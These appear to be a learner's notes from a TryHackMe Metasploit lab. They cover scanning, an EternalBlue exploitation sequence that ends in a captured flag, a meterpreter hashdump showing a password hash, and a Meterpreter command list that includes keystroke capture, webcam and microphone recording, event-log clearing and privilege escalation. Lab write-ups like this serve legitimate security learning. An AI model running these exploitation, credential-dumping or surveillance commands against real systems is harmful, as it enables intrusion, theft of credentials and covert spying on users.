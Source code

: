 # port scanning
```bash
$ search portscan
$ auxiliary/scanner/portscan/tcp
$ show options
```
nmap scans from msfconsole are faster

# UDP service identification
``scanner/discovery/udp_sweep`` module quickly identify services running over the UDP
this module will not conduct an extensive scan of all possible UDP services but does provide a quick way to identify services such as DNS or NetBIOS.

# SMB scans
`smb_enumshares` and `smb_version` and others allow us to scan specific services.

# metasploit database
# vulnerability scanning
just search vnc, and use whichever

```shell-session
msfconsole
exploit/windows/smb/ms17_010_eternalblue/
show payloads
set payload 2
set LHOST [tun0_ip]
set RHOSTS [target_ip]
exploit

cd ..
cd ..
dir "\*flag.txt*" /s
then 
cd \Users\Jon\Documents
type flag.txt
```

**FLAG - `THM-5455554845`**

use meterpreter for hashdump
`pirate:1001:aad3b435b51404eeaad3b435b51404ee:8ce9a3ebd1647fcc5e04025019f4b875:::`


**HASH - `8ce9a3ebd1647fcc5e04025019f4b875`**


[chall](https://medium.com/@jiteshofficial2004/tryhackme-metasploit-exploitation-easy-walkthrough-48d6db20cfbf)


# MSFVENOM
Msfvenom is used to generate payloads.
````shell-session
msfvenom -l payloads 
````
Access payload



# METERPRETER
Meterpreter is a Metasploit payload that supports the penetration testing process with many valuable components. Meterpreter will run on the target system and act as an agent within a command and control architecture.
Meterpreter will establish an encrypted (TLS) communication channel with the attacker's system.


```bash
msfvenom --list payloads | grep meterpreter
```

Core commands

- `background`: Backgrounds the current session
- `exit`: Terminate the Meterpreter session
- `guid`: Get the session GUID (Globally Unique Identifier)  
    
- `help`: Displays the help menu
- `info`: Displays information about a Post module
- `irb`: Opens an interactive Ruby shell on the current session
- `load`: Loads one or more Meterpreter extensions
- `migrate`: Allows you to migrate Meterpreter to another process
- `run`: Executes a Meterpreter script or Post module
- `sessions`: Quickly switch to another session

File system commands

- `cd`: Will change directory
- `ls`: Will list files in the current directory (dir will also work)
- `pwd`: Prints the current working directory
- `edit`: will allow you to edit a file
- `cat`: Will show the contents of a file to the screen
- `rm`: Will delete the specified file
- `search`: Will search for files
- `upload`: Will upload a file or directory
- `download`: Will download a file or directory

Networking commands

- `arp`: Displays the host ARP (Address Resolution Protocol) cache
- `ifconfig`: Displays network interfaces available on the target system  
    
- `netstat`: Displays the network connections
- `portfwd`: Forwards a local port to a remote service
- `route`: Allows you to view and modify the routing table

System commands

- `clearev`: Clears the event logs
- `execute`: Executes a command
- `getpid`: Shows the current process identifier
- `getuid`: Shows the user that Meterpreter is running as
- `kill`: Terminates a process
- `pkill`: Terminates processes by name
- `ps`: Lists running processes
- `reboot`: Reboots the remote computer
- `shell`: Drops into a system command shell
- `shutdown`: Shuts down the remote computer
- `sysinfo`: Gets information about the remote system, such as OS

Others Commands (these will be listed under different menu categories in the help menu)

- `idletime`: Returns the number of seconds the remote user has been idle
- `keyscan_dump`: Dumps the keystroke buffer
- `keyscan_start`: Starts capturing keystrokes
- `keyscan_stop`: Stops capturing keystrokes
- `screenshare`: Allows you to watch the remote user's desktop in real time
- `screenshot`: Grabs a screenshot of the interactive desktop
- `record_mic`: Records audio from the default microphone for X seconds
- `webcam_chat`: Starts a video chat
- `webcam_list`: Lists webcams
- `webcam_snap`: Takes a snapshot from the specified webcam
- `webcam_stream`: Plays a video stream from the specified webcam
- `getsystem`: Attempts to elevate your privilege to that of local system
- `hashdump`: Dumps the contents of the SAM database

